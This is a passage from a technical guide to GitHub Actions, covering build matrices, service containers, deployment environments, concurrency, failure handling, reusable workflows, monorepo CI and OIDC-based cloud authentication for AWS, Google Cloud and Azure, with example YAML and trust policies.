Generate the matrix in a planning job (for example one entry per changed service) and expand it with `fromJSON`. See Chapters 11 and 23. Guard against an **empty matrix**, which is an error: `if: ${{ needs.plan.outputs.services != '[]' }}`.

### 16.3 Parallelization strategies

| Technique | How | Trade-off |
|---|---|---|
| Separate jobs by concern | lint, unit, integration, security as separate jobs | Setup overhead repeated per job |
| Split tests | Matrix `shard: [1,2,3,4]`; each runs a slice (JUnit tags/lists, `--shard` in Jest/Playwright, `pytest-split`) | Uneven shards; need timing data |
| Multi-module builds | Maven `-T 1C`, Gradle parallel | Requires thread-safe tests |
| Larger runners | More CPU for one job | Cost; diminishing returns |

**Optimize only after finding the bottleneck.** Look at the critical path (longest chain of `needs`) in the run's visualization graph and at per-step timings. Parallelizing a job that is not on the critical path saves nothing.

### 16.4 Matrix production examples

- **Multiple runtime versions** for a library you publish (Java 17/21/25).
- **Database versions** for a service that must support Postgres 15 and 16.
- **Backend service versions** in a contract test between provider and consumer.
- **Operating systems** only if you ship binaries for them. A backend that runs on Linux containers should test on Linux.

---

## Chapter 17. Services and Containers

### 17.1 Service containers

`services:` starts sidecar Docker containers for the job's lifetime, on a network shared with the job. Ideal for PostgreSQL, MySQL, Redis, message brokers.

```yaml
jobs:
  it:
    runs-on: ubuntu-24.04
    services:
      postgres:
        image: postgres:16.4
        env:
          POSTGRES_USER: app
          POSTGRES_PASSWORD: app
          POSTGRES_DB: app_test
        ports: ['5432:5432']
        options: >-
          --health-cmd "pg_isready -U app -d app_test"
          --health-interval 5s --health-timeout 5s --health-retries 12
      redis:
        image: redis:7.4
        ports: ['6379:6379']
        options: --health-cmd "redis-cli ping" --health-interval 5s --health-retries 12
    steps:
      - uses: actions/checkout@v7
      - uses: actions/setup-java@v6
        with: { distribution: temurin, java-version: '21', cache: maven }
      - run: mvn -B -ntp verify -Pintegration
        env:
          SPRING_DATASOURCE_URL: jdbc:postgresql://localhost:5432/app_test
          SPRING_DATASOURCE_USERNAME: app
          SPRING_DATASOURCE_PASSWORD: app
          SPRING_DATA_REDIS_HOST: localhost
```

**Networking rules (official).** When the *job runs directly on the runner*, reach services at `localhost:<mapped port>` (you must map `ports`). When the job runs *in a container* (`container:`), reach services by **service name** (`postgres:5432`) and mapping ports is unnecessary. The `options` health check makes GitHub wait until the service is healthy before steps start. **Pin image tags**, ideally to a digest. Do not use `latest`.

The database password here is a throwaway for an ephemeral container. It is not a real secret.

### 17.2 Service containers vs Testcontainers

| | Service containers | Testcontainers (in your test code) |
|---|---|---|
| Defined in | Workflow YAML | Test code |
| Runs locally the same way | No (need Docker Compose) | **Yes**, same code locally and in CI |
| Per-test isolation | Shared instance | Fresh container per class/suite |
| Startup cost | Once per job | Per suite; reuse possible |
| Best for | Simple shared dependencies | Complex or many dependencies; parity between laptop and CI |

GitHub-hosted Ubuntu runners have Docker, so Testcontainers works without extra setup. Prefer Testcontainers when developers should reproduce CI locally.

### 17.3 Running the job itself in a container

```yaml
jobs:
  build:
    runs-on: ubuntu-24.04
    container:
      image: eclipse-temurin:21-jdk@sha256:<digest>
      options: --user 1001
```

Use to pin the *entire* toolchain in an image you control. Caveats: Linux runners only; steps run inside the container so `docker` may not be available; `actions/checkout` file ownership issues if the user differs.

### 17.4 Message queues and other dependencies

Kafka/RabbitMQ/NATS can run as services (`rabbitmq:3-management` with a health command) or via Testcontainers. For "many services," use **Docker Compose** started in a step (`docker compose up -d --wait`), then run tests. When dependencies become numerous, consider a dedicated ephemeral environment (Kubernetes namespace per PR) instead.

---

## Chapter 18. Environments

### 18.1 What a GitHub environment is

A **deployment environment** is a named target (`development`, `staging`, `production`) with:

- **Protection rules** (deployment protection): required reviewers (with "prevent self-review"), wait timer, and restrictions on which **branches or tags** may deploy; optional **custom protection rules** implemented by GitHub Apps.
- **Environment secrets and variables**, released only after the rules pass.
- **Deployment history** and an environment **URL** shown in the UI.

When a job has `environment: production`, GitHub creates a **deployment**, evaluates the rules, **holds the job in a waiting state until they pass**, and only then assigns a runner and releases environment secrets.

```yaml
jobs:
  deploy-prod:
    runs-on: ubuntu-24.04
    environment:
      name: production
      url: https://orders.example.com
    permissions:
      contents: read
      id-token: write
    steps:
      - run: echo "deploying"
```

### 18.2 Environments versus environment variables

`environment:` (GitHub feature) is a **deployment target with rules and its own config**. An *environment variable* (`env:`) is a process variable inside a job. Similar words, unrelated concepts. An environment's *variables* (`vars.X` scoped to that environment) are configuration values, not process variables until you map them.

### 18.3 Design guidance

| Setting | Recommendation |
|---|---|
| `development` | No reviewers; branch policy: `main` only; auto-deploy |
| `staging` | No or light approval; branch policy: `main`/release tags |
| `production` | **Required reviewers (2 people or a team), prevent self-review, branch/tag policy limited to `main` or `v*` tags**, optional wait timer |
| Secrets/variables | Per environment. The **same names** (`AWS_ROLE_ARN`, `CLUSTER_NAME`) with different values, so the workflow is identical across environments |
| Cloud role | One per environment, trusting `sub = repo:ORG/REPO:environment:<name>` (Chapter 25) |
| URL | Emit from a step output so the deployment page links to the live service |

**Security note.** Since December 2025 environment branch rules evaluate against the *execution ref* (for `pull_request`, the merge ref; for `pull_request_target`, the default branch). Still, protect production with a **branch/tag policy plus reviewers**, and use CODEOWNERS on `.github/workflows/` so nobody can quietly redirect a job to a weaker environment.

**Limits (official).** A workflow can wait up to **30 days** for an approval; the whole run is cancelled at **35 days**. `deployment: false` lets a job use an environment's secrets without creating a deployment record (incompatible with custom protection rules).

---

## Chapter 19. Concurrency

### 19.1 What it does

`concurrency` limits how many workflow runs or jobs sharing a **group** string run at once. At most one is *running* and (by default) at most one is *pending*.

| Setting | Behavior |
|---|---|
| Default (no `cancel-in-progress`) | New run waits while one runs; if another is already pending, the older *pending* one is **cancelled and replaced** |
| `cancel-in-progress: true` | The running one is **cancelled**, and the new one takes over |
| `queue: max` | Up to **100** pending runs queue FIFO; extras are cancelled. Cannot combine with `cancel-in-progress: true` |

Group names are case-insensitive. Runs are processed first-in-first-out by when they began waiting on the group, so exact order is not guaranteed.

### 19.2 Use case: cancel outdated PR builds

```yaml
concurrency:
  group: ci-${{ github.workflow }}-${{ github.event.pull_request.number || github.ref }}
  cancel-in-progress: ${{ github.event_name == 'pull_request' }}
```

New pushes to a PR cancel stale runs (saves cost and time). On `main` you usually do **not** cancel: every merge commit should get its full validation.

### 19.3 Use case: never run two production deployments at once

```yaml
jobs:
  deploy:
    environment: production
    concurrency:
      group: deploy-production            # one group across all workflows that deploy prod
      cancel-in-progress: false           # never kill an in-flight deploy
```

**Critical subtlety:** with the default `single` queue, if deployment A runs, B is pending, and C arrives, **B is cancelled and replaced by C**. For deployments that is often *desired* ("only the newest matters") but sometimes not (each commit must deploy in order). Use `queue: max` when you need strict ordering, or make deployments *idempotent by digest* so newest-wins is safe.

### 19.4 Use case: serialize database migrations and Terraform

```yaml
concurrency:
  group: terraform-${{ inputs.environment }}
  cancel-in-progress: false
```

Cancelling a running `terraform apply` or migration can leave state half-changed. Serialize, never cancel.

### 19.5 Pitfalls

- **Shared group names across workflows** cancel each other. Include `github.workflow` (or a deliberate shared name for a deploy lock).
- **Job-level vs workflow-level.** Workflow-level concurrency covers the whole run (including waiting on approval, and holds the lock while waiting!). Job-level concurrency locks only that job. For deployments, **put concurrency on the deploy job** so build jobs are not blocked.
- **Approval waits hold the group.** A production deploy pending approval for hours blocks later deploys in that group. This is often desirable (a lock) but should be intentional.
- **Missing values:** `github.head_ref` is empty outside PRs; use a fallback (`|| github.run_id`).

### 19.6 Duplicate deployments

Prevent duplicates by (1) a concurrency group per environment, (2) deploying by immutable digest so a repeated run is a no-op (`helm upgrade` with the same values), and (3) recording the deployed digest and checking it before proceeding.

---

## Chapter 20. Failure Handling

### 20.1 How failure propagates

- A step fails when its process exits non-zero (or an action reports failure).
- A failed step skips later steps unless they have `if: always()`, `failure()` or `!cancelled()`.
- A failed job skips dependents unless they use a status function.
- **Cancellation** stops running steps with escalating signals; `if: cancelled()`/`always()` steps get a limited window. Design cleanup to be quick and idempotent.
- **Timeouts** (`timeout-minutes`) cancel the step/job. Default job timeout is 360 minutes; **always set a shorter one**.

### 20.2 `continue-on-error`

```yaml
- name: Optional experimental scan
  id: exp
  continue-on-error: true
  run: ./scan.sh
- name: Report outcome
  run: echo "outcome=${{ steps.exp.outcome }} conclusion=${{ steps.exp.conclusion }}"
```

`outcome` is the raw result (`failure`); `conclusion` is after `continue-on-error` (`success`). **Blindly setting `continue-on-error: true` is dangerous**: the step and job appear green while the check silently did not pass, so a security scan or migration failure never blocks anything. Use it only for genuinely informational steps, and always surface the outcome (annotation, summary, or a notification). A job-level `continue-on-error` on a matrix leg (for an experimental Java version) is a reasonable use.

### 20.3 Cleanup and reporting after failure

```yaml
- name: Collect diagnostics
  if: ${{ failure() }}
  run: kubectl -n orders describe pods > diagnostics.txt || true
- name: Upload diagnostics
  if: ${{ failure() }}
  uses: actions/upload-artifact@v7
  with: { name: diagnostics, path: diagnostics.txt }
- name: Always release the lock
  if: ${{ always() }}
  run: ./scripts/release-lock.sh
```

### 20.4 Retries

GitHub Actions has no built-in step retry. Options:

| Level | How | Use when |
|---|---|---|
| Command | `curl --retry 5 --retry-delay 3 --retry-connrefused` | Network calls, waiting for readiness |
| Script | A small loop with backoff | Flaky external API |
| Test | Framework rerun of failing tests (visible in reports) | Known flakiness, temporary |
| Action | A retry action (third-party, pin it) | Rare |
| Job | *Re-run failed jobs* in the UI/API (max 50 reruns per run) | Infrastructure blips |

**Never retry non-idempotent operations** (a migration, an `apply`, a publish) without an idempotency mechanism.

### 20.5 Flaky tests

Detect (same commit passes and fails), isolate (quarantine job, non-blocking), report (dashboard of flake rate per test), and **fix**. Track *retry rate* as a health metric (Chapter 39). If the team routinely clicks "re-run," CI has lost credibility.

### 20.6 Idempotent, fail-safe scripts

Start scripts with `set -euo pipefail`. Prefer commands that report problems non-zero. Check preconditions and exit early with `::error::` annotations that say what to do.

---

# Part 5: Advanced Workflow Engineering

## Chapter 21. Reusable Workflows

### 21.1 The idea

A **reusable workflow** is a normal workflow file with `on: workflow_call`. Other workflows call it as a **job** (`jobs.<id>.uses`). It can contain many jobs, choose its own runners, use environments and receive secrets. It is the unit of *standardization* in an organization: "every backend service uses the same CI."



### 21.2 Defining and calling

**Called workflow** (`.github/workflows/java-ci.yml` in the platform repository):

```yaml
name: Java CI (reusable)

on:
  workflow_call:
    inputs:
      java-version:
        type: string
        default: '21'
      working-directory:
        type: string
        default: '.'
      run-integration:
        type: boolean
        default: true
    secrets:
      SONAR_TOKEN:
        required: false
    outputs:
      coverage:
        description: Line coverage percent
        value: ${{ jobs.test.outputs.coverage }}

permissions:
  contents: read

jobs:
  test:
    runs-on: ubuntu-24.04
    timeout-minutes: 30
    outputs:
      coverage: ${{ steps.cov.outputs.percent }}
    defaults:
      run:
        working-directory: ${{ inputs.working-directory }}
    steps:
      - uses: actions/checkout@v7
        with: { persist-credentials: false }
      - uses: actions/setup-java@v6
        with:
          distribution: temurin
          java-version: ${{ inputs.java-version }}
          cache: maven
      - run: mvn -B -ntp verify
      - id: cov
        run: echo "percent=84" >> "$GITHUB_OUTPUT"   # replace with real parsing of the JaCoCo report
```

**Caller:**

```yaml
name: CI
on:
  pull_request:
permissions:
  contents: read
jobs:
  ci:
    uses: ORG/platform/.github/workflows/java-ci.yml@v3     # tag or SHA of the platform repo
    with:
      java-version: '21'
    secrets:
      SONAR_TOKEN: ${{ secrets.SONAR_TOKEN }}               # explicit pass-through
  report:
    needs: ci
    runs-on: ubuntu-24.04
    steps:
      - run: echo "coverage was $COV"
        env:
          COV: ${{ needs.ci.outputs.coverage }}
```

Same-repository call: `uses: ./.github/workflows/java-ci.yml` (no ref). GitHub also documents a newer `$/` self-repository prefix for same-repo references, which is not available on GitHub Enterprise Server. The `./` form works everywhere.

### 21.3 Rules and limits (official)

- Called from a **job**, not from a step. So you cannot use `GITHUB_ENV` to pass values into the caller.
- Up to **ten levels** of nesting (caller plus nine levels) and **50 unique** reusable workflows per top-level workflow file; loops are not allowed.
- **Permissions can only be maintained or reduced through the chain, never elevated.** The `GITHUB_TOKEN` permissions the caller grants are the ceiling.
- `secrets: inherit` passes all of the caller's secrets to a directly called workflow. Convenient, but it hands over more than needed. Prefer explicit named secrets.
- The caller's `env` context is not propagated to the called workflow. Pass values as `inputs`.
- Inputs support `string`, `boolean`, `number` only. To pass structured data, use a JSON string and `fromJSON`.
- **Cache access** granted by a caller carries into the called workflow and cannot be exceeded.
- Environment protection works inside reusable workflows (the job declares `environment`). OIDC `sub`/`job_workflow_ref` claims let cloud trust policies pin *which reusable workflow* may assume a role.

### 21.4 Versioning and governance

| Ref style | Pro | Con |
|---|---|---|
| `@main` | Instant rollout | Any change hits everyone immediately; risky and unreviewed by callers |
| `@v3` (moving major tag) | Compatible updates automatically | Tag can move; requires the platform team to be disciplined and to use immutable releases |
| `@<sha>` (with Dependabot) | Reproducible, tamper-resistant | Updates arrive as PRs |

**Recommendation.** Platform team: semantic versions, protected release tags, changelog, and immutable releases. Consumers: pin to a **SHA** in production repositories (Dependabot bumps it) or, inside one organization with strong controls, to a version tag. Publish a *compatibility policy*: what counts as breaking (removing inputs, changing defaults, raising permissions).

Access: a reusable workflow in a private/internal repository must be made accessible to callers via the repository's Actions access settings.

### 21.5 Reusable workflows in a large organization

- Central repository `platform/.github-workflows` (or `org/.github`) with `java-ci.yml`, `docker-build.yml`, `deploy-k8s.yml`, `terraform.yml`, `notify.yml`.
- **Workflow templates** (starter workflows in the org's `.github` repository) help new repositories start correctly.
- Enforce use via **repository rulesets** ("required workflows") so a standard workflow must pass for merges.
- Keep the catalog *small and opinionated*. A reusable workflow with 40 inputs is a worse copy-paste.

---

## Chapter 22. Composite Actions and the Other Action Types

### 22.1 Composite actions

A **composite action** bundles several *steps* into one reusable step. It lives in a directory containing `action.yml`.

```text
.github/actions/setup-java-maven/
└── action.yml
```

```yaml
# .github/actions/setup-java-maven/action.yml
name: Setup Java and Maven cache
description: Install JDK and enable Maven dependency caching
inputs:
  java-version:
    description: JDK major version
    required: false
    default: '21'
outputs:
  java-home:
    description: Path to the JDK
    value: ${{ steps.setup.outputs.path }}
runs:
  using: composite
  steps:
    - id: setup
      uses: actions/setup-java@v6
      with:
        distribution: temurin
        java-version: ${{ inputs.java-version }}
        cache: maven
    - shell: bash
      run: mvn -v
```

Use it (the repository must be checked out first):

```yaml
steps:
  - uses: actions/checkout@v7
  - uses: ./.github/actions/setup-java-maven
    with:
      java-version: '21'
```

**Rules.** Every `run` step needs `shell:`. Composite actions **cannot use the `secrets` context**; pass secrets as inputs from the caller. They appear as one step in the log (less granular). They cannot declare `background`/`parallel` steps inside. Inputs are read with `inputs.*`.

### 22.2 Reusable workflow vs composite action vs Docker action vs JavaScript action

| | Reusable workflow | Composite action | Docker action | JavaScript action |
|---|---|---|---|---|
| Unit of reuse | Whole **jobs** | A sequence of **steps** | A container entrypoint | Node code |
| Called from | A job (`jobs.<id>.uses`) | A step (`uses:`) | A step | A step |
| Contains jobs / picks runners | Yes | No | No | No |
| Can use `secrets` context | Yes (passed by caller) | No (use inputs) | No (inputs/env) | No (inputs/env) |
| Environments / concurrency / permissions | Yes | No | No | No |
| Logging | Each job and step visible | One step | One step | One step |
| Language | YAML | YAML + shell | Any (in an image) | JS/TS |
| Cross-OS | Any runner label | Yes (with shell care) | **Linux only** | Yes |
| Publish to Marketplace | No | Yes | Yes | Yes |
| Best for | Standard pipelines, deployment cores | Setup/cleanup snippets shared by many jobs | Tools needing a special environment | Fast, rich logic; API calls |

**Decision guide:** "same set of jobs across repos" → reusable workflow. "Same handful of steps inside jobs" → composite action. "Needs an exotic toolchain image" → Docker action. "Needs logic and speed, or heavy GitHub API use" → JavaScript action. Use *scripts in the repo* when the logic is repo-specific.

### 22.3 Publishing internal actions safely

Version with tags and, for consumers, pin SHAs. Enable **immutable releases** for actions you publish so tags cannot be moved (official feature). Do not commit secrets in `action.yml` or `dist/`. Add tests for actions in their own CI.

---

## Chapter 23. Monorepos

### 23.1 The problem

One repository holds many services (`services/orders`, `services/billing`, `libs/common`). Running every test on every change wastes time; running too little misses breakage.

```mermaid
flowchart TD
    PR["Pull request"] --> CH["changes job:<br/>detect changed paths"]
    CH --> M["Compute affected projects<br/>(direct + dependents)"]
    M --> MX["Dynamic matrix of projects"]
    MX --> T1["orders: build and test"]
    MX --> T2["billing: build and test"]
    T1 --> G["gate job: required check"]
    T2 --> G
    CH --> G
```

### 23.2 Techniques

| Technique | What | Caveat |
|---|---|---|
| **Workflow-level `paths` filters** | Run a workflow only for matching paths | **Skipped workflows leave required checks Pending**, blocking merges. Do not use for required checks. |
| **Change-detection job** | A first job computes changed areas (`dorny/paths-filter` or `git diff`), outputs JSON, later jobs use `if`/matrix | Keeps the workflow always running (a quick job) so the required gate is always reported |
| **Affected-project tools** | Nx, Turborepo, Bazel, Gradle/Maven reactor (`mvn -pl :orders -am` builds a module and what it depends on) | Real dependency graph beats path guesses |
| **Reusable workflow per service** | Same CI definition, parameterized by `working-directory` | Central maintenance |
| **Shared-library rule** | A change under `libs/**` marks all dependents affected | Encode explicitly |

### 23.3 A monorepo CI skeleton

```yaml
name: Monorepo CI
on:
  pull_request:
  merge_group:
permissions:
  contents: read
jobs:
  changes:
    runs-on: ubuntu-24.04
    outputs:
      services: ${{ steps.filter.outputs.changes }}
    permissions:
      contents: read
      pull-requests: read
    steps:
      - uses: actions/checkout@v7
        with: { persist-credentials: false }
      - id: filter
        uses: dorny/paths-filter@v4
        with:
          filters: |
            orders:
              - 'services/orders/**'
              - 'libs/common/**'
            billing:
              - 'services/billing/**'
              - 'libs/common/**'
  test:
    needs: changes
    if: ${{ needs.changes.outputs.services != '[]' }}
    runs-on: ubuntu-24.04
    strategy:
      fail-fast: false
      matrix:
        service: ${{ fromJSON(needs.changes.outputs.services) }}
    steps:
      - uses: actions/checkout@v7
        with: { persist-credentials: false }
      - uses: actions/setup-java@v6
        with: { distribution: temurin, java-version: '21', cache: maven }
      - run: mvn -B -ntp -pl "services/${{ matrix.service }}" -am verify
  ci-gate:
    if: ${{ always() }}
    needs: [changes, test]
    runs-on: ubuntu-24.04
    steps:
      - run: |
          [[ "$RESULT_CHANGES" == "success" ]] || exit 1
          [[ "$RESULT_TEST" == "success" || "$RESULT_TEST" == "skipped" ]] || exit 1
        env:
          RESULT_CHANGES: ${{ needs.changes.result }}
          RESULT_TEST: ${{ needs.test.result }}
```

`matrix.service` comes from filter names we defined (trusted), and the gate job is the **single required check**. Note the `-pl ... -am` Maven flags build the service and the modules it depends on. On `push` to `main` (post-merge) you may want to build *everything affected since the last deployment*, not just the last commit.

### 23.4 Common monorepo mistakes

Path filters at workflow level for required checks; forgetting shared libraries; a matrix leg per module producing hundreds of required check names; per-service deploys that all use the same concurrency group (serializing unrelated services); caches shared across services with colliding keys (include the service in the key).

---

## Chapter 24. Organization-Scale Architecture

### 24.1 Responsibilities



### 24.2 Governance controls (official capabilities)

| Control | Purpose |
|---|---|
| **Allowed actions and reusable workflows policy** | Restrict to GitHub-authored, verified, or a specific allowlist |
| **Require full-length SHA pinning** (repo/org policy) | Reject unpinned `uses:` |
| **Default `GITHUB_TOKEN` permissions = read** | Least privilege baseline |
| **Disable "Actions can create/approve PRs"** | Prevent self-approval loops |
| **Workflow execution protections** | Restrict events and actors that may trigger workflows (for example `pull_request_target`) |
| **Runner groups with repo access lists** | Limit who can reach self-hosted runners |
| **Repository rulesets** | Required checks/required workflows, protected tags and branches |
| **CODEOWNERS on `.github/`** | Security or platform review of pipeline changes |
| **Audit log streaming** | Detect changes to secrets, runners, policies |
| **Organization secrets/variables with repository selection** | Share safely |

### 24.3 The paved road

Give teams a golden path: a repository template with `ci.yml` (calls `java-ci.yml`), `deploy.yml`, `dependabot.yml`, `CODEOWNERS`, a Helm chart skeleton, and environment setup scripts (Terraform or the GitHub API/`gh` CLI to create environments). Measure adoption and CI health across repositories (Chapter 39). Allow deviation, but make the paved road the *easiest* path.

### 24.4 Scaling concerns

Queue times on shared runners; cache thrashing at 10 GB per repository; secret sprawl; workflow duplication; reusable workflow blast radius (a bad release affects hundreds of repos, so use staged rollout with pinned refs and canary repositories); API rate limits from chatty automation; cost attribution per team.

---

# Part 6: Identity and Runners

## Chapter 25. OIDC and Cloud Authentication

### 25.1 The problem with long-lived credentials

Storing `AWS_ACCESS_KEY_ID`/`AWS_SECRET_ACCESS_KEY` (or a GCP key file, or an Azure client secret) as GitHub secrets means:

- The credential is **valid until someone rotates it**, usable from anywhere.
- Anyone with write access can exfiltrate it via a workflow change; a compromised action can steal it.
- Rotation is manual, and forgotten.
- You cannot tell *which workflow run* used it.

### 25.2 OIDC in one picture

OpenID Connect lets each job prove "who I am" with a **signed, short-lived JWT** issued by GitHub. The cloud trusts GitHub as an identity provider, validates the JWT against a **trust policy** you wrote, and returns **short-lived cloud credentials**. No stored cloud secret exists.



**Requirement:** the job needs `permissions: id-token: write`. This only allows *minting the OIDC token*; it grants no GitHub API write access.

### 25.3 Claims that matter

| Claim | Meaning | Example |
|---|---|---|
| `iss` | Issuer | `https://token.actions.githubusercontent.com` |
| `aud` | Audience: who the token is for (you configure it) | `sts.amazonaws.com` |
| `sub` | Subject: the *primary identity*, composed of repo plus context | `repo:ORG/REPO:environment:production`, `repo:ORG/REPO:ref:refs/heads/main`, `repo:ORG/REPO:pull_request` |
| `repository`, `repository_owner` | Which repo/org | `ORG/REPO` |
| `ref`, `sha` | Git ref and commit | `refs/heads/main` |
| `environment` | The environment name (if the job uses one) | `production` |
| `job_workflow_ref` | The reusable workflow that is running, with ref | `ORG/platform/.github/workflows/deploy.yml@refs/tags/v3` |
| `workflow`, `actor`, `event_name`, `runner_environment` | Context | |

**Subject formats by trigger** (default): with an environment: `repo:ORG/REPO:environment:NAME`. Without: `repo:ORG/REPO:ref:refs/heads/BRANCH`, `repo:ORG/REPO:ref:refs/tags/TAG`, or `repo:ORG/REPO:pull_request` for PR events. Note: when a job has an `environment`, the `sub` uses the *environment*, not the branch. GitHub also allows customizing the `sub` claim template at organization or repository level (for example to include `job_workflow_ref`); see the OIDC docs.

### 25.4 Designing a safe trust policy

1. **Always check `aud`** to the exact expected audience.
2. **Always constrain `sub`** to a specific repository. **Never use `repo:ORG/*`** or omit `sub` (any repo in your org, or worse, any GitHub repo, could assume the role).
3. **Prefer environment-scoped subjects for production** (`environment:production`): the environment's reviewers and branch policy then gate cloud access.
4. **Separate roles by privilege and by environment:** a read-only `plan` role trusts `pull_request`; a write `apply`/`deploy` role trusts only `environment:production`.
5. **Pin the reusable workflow** (`job_workflow_ref`) when the platform team owns deployment logic, so only the blessed workflow can deploy.
6. **Least-privilege IAM policy** on the role. OIDC removes the stored secret; it does not shrink over-broad permissions.
7. **Short session duration**; enable CloudTrail/audit logs and alert on assumption from unexpected subjects.
8. **Note on AWS:** IAM trust policies expose a limited set of GitHub claims as condition keys (`aud` and `sub` are the reliable ones), and GitHub's docs state that custom claims are unavailable in AWS. Encode extra restrictions in `sub` via environments or a customized `sub` template.

### 25.5 AWS

**Trust policy** (role `gha-orders-prod-deploy`):

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Federated": "arn:aws:iam::123456789012:oidc-provider/token.actions.githubusercontent.com"
      },
      "Action": "sts:AssumeRoleWithWebIdentity",
      "Condition": {
        "StringEquals": {
          "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
          "token.actions.githubusercontent.com:sub": "repo:ORG/orders-service:environment:production"
        }
      }
    }
  ]
}
```

**Workflow step:**

```yaml
permissions:
  id-token: write
  contents: read
steps:
  - uses: aws-actions/configure-aws-credentials@v6
    with:
      role-to-assume: ${{ vars.AWS_ROLE_ARN }}
      aws-region: ${{ vars.AWS_REGION }}
      role-session-name: gha-${{ github.run_id }}
  - run: aws sts get-caller-identity
```

The OIDC identity provider is created once per AWS account. Multiple roles can share it. The role ARN is not a secret; store it as an environment **variable**.

### 25.6 Google Cloud (Workload Identity Federation)

Create a workload identity pool and an OIDC provider with issuer `https://token.actions.githubusercontent.com`, map attributes, **set an attribute condition** restricting the repository, and grant the pool principal `roles/iam.workloadIdentityUser` on a service account.

```text
attribute mapping:   google.subject = assertion.sub
                     attribute.repository = assertion.repository
                     attribute.environment = assertion.environment
attribute condition: assertion.repository == "ORG/orders-service" && assertion.environment == "production"
```

```yaml
permissions:
  id-token: write
  contents: read
steps:
  - uses: google-github-actions/auth@v3
    with:
      workload_identity_provider: projects/123456789/locations/global/workloadIdentityPools/github/providers/orders
      service_account: gha-deploy@my-project.iam.gserviceaccount.com
  - run: gcloud auth list
```

### 25.7 Azure (federated credentials)

Create an Entra ID app registration (or user-assigned managed identity), add a **federated credential** with issuer `https://token.actions.githubusercontent.com`, subject `repo:ORG/orders-service:environment:production`, audience `api://AzureADTokenExchange`, and assign RBAC roles at the narrowest scope.

```yaml
permissions:
  id-token: write
  contents: read
steps:
  - uses: azure/login@v3
    with:
      client-id: ${{ vars.AZURE_CLIENT_ID }}
      tenant-id: ${{ vars.AZURE_TENANT_ID }}
      subscription-id: ${{ vars.AZURE_SUBSCRIPTION_ID }}
  - run: az account show
```

### 25.8 OIDC failure modes

| Symptom | Likely cause |
|---|---|
| "Credentials could not be loaded" / no token | Missing `id-token: write` (job or workflow level; reusable workflows too) |
| `Not authorized to perform sts:AssumeRoleWithWebIdentity` | `sub` mismatch (environment vs branch; case; repo renamed/transferred), wrong `aud`, provider not created, wrong role ARN |
| Works on `main`, fails in a job with `environment:` | `sub` is `environment:NAME`, not `ref:...` |
| Fails only for PRs | `sub` is `pull_request`; your policy allows only branch/environment subjects (usually correct!) |
| Fails in reusable workflow | Trust policy expects caller's repo; `sub` is the caller's. `job_workflow_ref` differs |
| Token expired mid-job | Long jobs: re-authenticate; role max session limits |

Debug by decoding the token *claims* (not the signature) in a step, in a **private** context: `curl` the request URL with `ACTIONS_ID_TOKEN_REQUEST_TOKEN` and inspect `sub`. Do not print the raw token to public logs.

---

## Chapter 26. Runners

### 26.1 GitHub-hosted runners

**Official behavior.** Each job runs on a **fresh, ephemeral** machine from a maintained image; nothing persists after the job. Standard labels include `ubuntu-latest`, `ubuntu-24.04`, `ubuntu-22.04`, `ubuntu-26.04`, `ubuntu-24.04-arm`, `windows-2025`, `windows-latest`, `macos-latest`/`macos-15`/`macos-26`, and `ubuntu-slim` (a lightweight single-CPU container-based runner for small tasks). Standard Linux/Windows x64 runners are 4 vCPU/16 GB on public repositories and 2 vCPU/8 GB on private repositories; **larger runners** (more CPU, GPU, ARM, static IPs, private networking, custom images) are available on Team and Enterprise plans. Jobs time out at 6 hours. Images ship with many preinstalled tools; software lists and SBOMs are published in the `actions/runner-images` repository.

| Aspect | Guidance |
|---|---|
| `ubuntu-latest` | Moves to new OS versions over time. For deployments and reproducible builds, pin an explicit label such as `ubuntu-24.04`, and upgrade deliberately |
| Preinstalled tools | Convenient, but pin versions with `setup-*` actions for determinism |
| Networking | Public IPs are shared and change. If a downstream system needs an allowlist, use larger runners with static IPs or self-hosted runners |
| Isolation | Strong: clean VM per job, no persistence |
| Cost | Per-minute billing on private repos (free minutes by plan); free for standard runners on public repos |

### 26.2 Self-hosted runners

